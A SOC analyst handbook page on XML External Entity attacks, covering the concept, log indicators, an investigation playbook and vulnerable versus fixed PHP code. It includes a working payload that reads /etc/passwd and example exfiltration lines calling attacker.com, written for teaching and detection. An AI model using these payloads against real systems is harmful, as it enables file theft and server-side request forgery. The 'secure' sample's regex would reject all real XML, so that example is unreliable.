

# 📘 SOC Analyst Handbook: Detecting XML External Entity (XXE)

**Category:** Injection / XML Parsing
**Severity:** Critical
**Skill Level:** Intermediate

---

### 1. The Concept

**The Analogy (ELI5)**
Imagine a document printer that allows you to include "References."
*   **Normal:** You send a document that says, "Print this text, and at the bottom, include the company logo (referenced here: `logo.png`)." The printer finds the logo and prints it.
*   **XXE:** You send a document that says, "Print this text, and at the bottom, include the content of the file located at `C:\Passwords.txt`." The printer, blindly following instructions, reads the secret file from its own hard drive and prints the passwords right onto your page.

**The Technical Definition**
**XML External Entity (XXE)** is a vulnerability that arises when an XML input containing a reference to an external entity is processed by a weakly configured XML parser. This allows an attacker to define a custom entity (e.g., `&xxe;`) that points to a local file or a remote URL. When the parser processes this entity, it replaces the tag with the actual content of the file or the response from the URL.

---

### 2. The Attack Mechanism

#### **How it works**
XML standards allow defining "Entities" (variables).
1.  **Legitimate Flow:**
    User sends XML: `<user><name>John</name></user>`.
    Server processes it.
2.  **The Exploit:**
    The attacker defines a `DOCTYPE` with an `ENTITY`.
    ```xml
    <!DOCTYPE foo [
      <!ELEMENT foo ANY>
      <!ENTITY xxe SYSTEM "file:///etc/passwd">
    ]>
    <foo>&xxe;</foo>
    ```
3.  **The Result:**
    The server parses `&xxe;`, sees it points to `file:///etc/passwd`, reads that file, and replaces `&xxe;` with `root:x:0:0:...`.
    The application then displays the file content back to the user.

#### **Attack Vectors**
*   **Local File Disclosure:** Reading `/etc/passwd`, `C:\Windows\win.ini`.
*   **SSRF (Server-Side Request Forgery):** Forcing the server to request `http://internal-server:8080` (scanning internal ports).
*   **Denial of Service (Billion Laughs):** Defining nested entities that expand exponentially (1 entity -> 10 -> 100 -> 1 million), consuming all RAM.

---

### 💥 3. Impact Analysis

1.  **Sensitive Data Leakage:** Reading source code, passwords, or config files.
2.  **SSRF:** Accessing internal metadata services (e.g., AWS Instance Metadata `169.254.169.254`) to steal cloud credentials.
3.  **Denial of Service (DoS):** Crashing the parser/server.
4.  **Remote Code Execution (RCE):** (Rare) Possible if the PHP `expect://` wrapper is enabled.

---

### 4. The Detective's Lens (Logs & Patterns)

As a SOC Analyst, you are looking for **XML Keywords** in places they shouldn't be, or specific **Schemas** (`file://`, `http://`) inside XML bodies.

#### **Key Indicators**
*   **Keywords:** `<!DOCTYPE`, `<!ENTITY`, `SYSTEM`, `PUBLIC`.
*   **Schemas:** `file:///`, `http://`, `ftp://`, `php://filter`.
*   **Encoded Payloads:**
    *   `%3C%21DOCTYPE` = `<!DOCTYPE`
    *   `%26` = `&` (Entity reference)
*   **Content-Type:** Requests with `Content-Type: application/xml` or `text/xml` are the primary targets.


#### **Example Log Snippet (Malicious)**
```text
123.45.67.89 - - [30/Apr/2023:12:34:57] "GET /processXML?xml=%3C%21DOCTYPE%20foo%20%5B%3C%21ENTITY%20xxe%20SYSTEM%20%27file%3A%2F%2F%2Fetc%2Fpasswd%27%3E%5D%3E%3Croot%3E%26xxe%3B%3C%2Froot%3E HTTP/1.1" 200 107 "-" "Mozilla/5.0..."
```
*   **Analysis:**
    *   **Payload:** `%3C%21DOCTYPE` decodes to `<!DOCTYPE`.
    *   **Keyword:** `SYSTEM` (indicates external entity definition).
    *   **Target:** `file:///etc/passwd` (The attacker is trying to read the Linux password file).
    *   **Status 200:** The server accepted it. Check the response size to see if data was returned.

---

### 5. Investigation Steps (The Playbook)

**Step 1: Identify Content-Type**
*   Is the application *supposed* to receive XML?
*   Note: Sometimes attackers change `Content-Type: application/json` to `application/xml` to see if the parser accepts it.

**Step 2: Decode the Payload**
*   Logs often URL-encode the XML. Use CyberChef to decode.
*   Look for `SYSTEM "..."`.

**Step 3: Check for "Out-of-Band" Traffic (Blind XXE)**
*   Attackers often use Blind XXE (where they don't see the response on screen).
*   Instead, they make the server send the data to *their* server: `http://attacker.com/?data=FILE_CONTENT`.
*   **Action:** Check Firewall/Proxy logs for outbound connections from your Web Server to unknown public IPs.

**Step 4: Check Internal Scanning**
*   Did the Web Server try to connect to internal IPs (Database, Admin Panel) on strange ports? This indicates XXE-based SSRF.

---

### 6. Remediation & Defense

**Immediate Actions (SOC)**
1.  **Block the IP:** Especially if you see `file:///` or `/etc/passwd`.
2.  **WAF Rules:** Block `<!DOCTYPE` and `<!ENTITY` in request bodies.

**Long-term Fixes (Engineering)**
1.  **Disable External Entities (The Golden Rule):**
    *   **PHP:** `libxml_disable_entity_loader(true);`
    *   **Java:** `dbf.setFeature("http://xml.org/sax/features/external-general-entities", false);`
2.  **Use JSON:** If possible, switch the API to use JSON instead of XML. JSON parsers do not support external entities.
3.  **Patch Parsers:** Ensure XML libraries (like `libxml2`) are up to date.

---

### 💻 7. Code Lab: Vulnerable vs. Secure

```php
// VULNERABLE CODE
$xml = file_get_contents('php://input');
$doc = new DOMDocument();
// The parser allows external entities by default!
$doc->loadXML($xml);
echo $doc->saveXML();
```
**The Flaw:** The code takes raw XML input and loads it. Because `DOMDocument` in older PHP versions (and many other languages) enables external entities by default, the attacker's `<!ENTITY xxe SYSTEM ...>` payload is processed.

***

```php
// SECURE CODE
$xml = file_get_contents('php://input');
$doc = new DOMDocument();

// 1. Disable External Entities (The Fix)
libxml_disable_entity_loader(true);

// 2. Validate Input (Optional but recommended)
if ($xml && preg_match('/^[a-zA-Z0-9_]*$/', $xml)) {
    $doc->loadXML($xml);
    echo $doc->saveXML();
} else {
    echo "Invalid XML input";
}
```
**The Fix:** The function `libxml_disable_entity_loader(true)` completely prevents the parser from fetching external resources. Even if the attacker sends the payload, the parser ignores the `SYSTEM` command.

---

### 🛑 SOC Pro-Tips (Beyond the Basics)

1.  **Blind XXE via Parameter Entities:**
    *   If you block normal entities, attackers use `%` parameter entities: `<!ENTITY % xxe SYSTEM "http://attacker.com">`.
    *   **Detection:** Look for `%` inside `<!DOCTYPE>`.

2.  **File Uploads (SVG, DOCX, XLSX):**
    *   **SVG** images are XML. **DOCX/XLSX** files are just Zipped XMLs.
    *   An attacker can upload a malicious `image.svg` containing an XXE payload. When the server processes/resizes the image, the payload fires.
    *   **Action:** Always verify if your image processing library disables entities.

3.  **JSON-to-XML Converters:**
    *   Some APIs accept JSON but convert it to XML internally. You might not see XML in the request, but the backend is still vulnerable. This is hard to detect in logs but vital to know during Incident Response.

---

### TL;DR for Interviews / Quick Recall
*   **What:** Attackers exploit XML parsers to read local files or connect to remote systems.
*   **Why:** XML parsers often enable "External Entities" by default.
*   **Impact:** **Sensitive File Disclosure** (`/etc/passwd`), **SSRF**, DoS.
*   **Detection:** Keywords `<!DOCTYPE`, `<!ENTITY`, `SYSTEM`, or schemas `file://` in XML bodies.
*   **Response:** Block IP → Check for outbound traffic (Blind XXE) → Check internal scanning (SSRF).
*   **Fix:** **Disable External Entity Loading** (e.g., `libxml_disable_entity_loader(true)`).

### 🎯 MITRE ATT&CK Mapping
*   **T1190:** Exploit Public-Facing Application.
*   **T1552.004:** Unsecured Credentials (reading config files).
*   **T1005:** Data from Local System.

### ⚠️ Avoid Assumptions
*   **"We use JSON, we are safe":** Not if you support SOAP or process file uploads (Excel/Word/SVG).
*   **Input Validation is enough:** Regex is bad at parsing XML. The only real fix is disabling the feature in the parser configuration.
*   **No response data = Failed attack:** Blind XXE exfiltrates data via DNS or HTTP requests to the attacker, not the response body.


